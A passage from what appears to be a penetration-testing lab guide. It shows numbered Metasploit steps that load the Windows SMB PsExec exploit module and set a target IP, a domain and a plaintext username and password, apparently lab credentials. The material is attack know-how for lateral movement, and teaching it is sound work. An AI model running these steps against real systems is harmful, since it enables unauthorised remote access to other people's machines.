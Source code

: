      ![A screenshot depicts the results of these commands.](Images/runmulti.PNG)	

4. Load the module for PsExec with the following command:

	 - `use exploit/windows/smb/psexec`

5. Set the following options:

	 - set RHOST 172.22.117.20
	 - set SMBUser tstark
	 - set SMBPass Password!
	 - set SMBDomain megacorpone
